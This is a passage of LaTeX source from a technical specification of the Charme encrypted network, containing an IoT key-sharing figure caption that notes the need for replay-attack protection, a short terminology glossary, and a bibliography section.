  
\includegraphics[width=120mm]{illustrations/iot.pdf}
	\caption{K\_a, K\_b are keys shared between some service and the device. The data is encrypted so that only the user, the service and the device can see the data, but not the Charme server. Please note that for K\_b there must be some security mechanism  like timestamps to avoid replay attacks when the door is opened for example. \label{iot} }
	\label{figContext}
\end{figure}


\newpage\section{Terminology}

\textbf{||}\\
 Concatenation Operator. For example $"a" || "b" \Leftrightarrow "ab" $
\\


\textbf{Conversation}\\ A sequence of messages of different users
\\\\
\textbf{Fastkey}\\ A symmetric key dependent on the passphrase. It is only known by the user itself, no other persons or servers.
\\

\textbf{Revision}\\
 After a key is updated it gets a new revision. A key update can happen after a new keyring is generated or someone has been removed of a conversation for example. both cases we generate an updated key.
\\

\textbf{userId}\\  An unique identifier for each person in the Charme network, similar to email. Example: ms@myserver.com


\newpage
\section{Sources}
\printbibliography




  
\end{document}
